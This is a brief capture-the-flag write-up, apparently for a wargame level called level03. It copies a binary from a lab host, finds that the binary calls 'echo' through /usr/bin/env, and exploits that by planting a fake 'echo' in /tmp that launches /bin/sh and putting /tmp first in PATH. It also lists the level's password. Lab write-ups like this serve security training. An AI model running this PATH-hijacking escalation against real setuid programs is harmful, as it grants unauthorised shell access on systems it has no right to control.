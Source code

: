 level03:kooda2puivaav1idi4f57q8iq

`scp -P 4242 scp://level03@192.168.1.88/level03 level03`

`strings level03`
and we find `/usr/bin/env echo Exploit me`

so we can modify the path the execute a shell instead of env

```shell
echo "/bin/sh" > /tmp/echo
chmod +x /tmp/echo
export PATH="/tmp:$PATH"
```

Then once you run `./level03`, a flag03 shell pops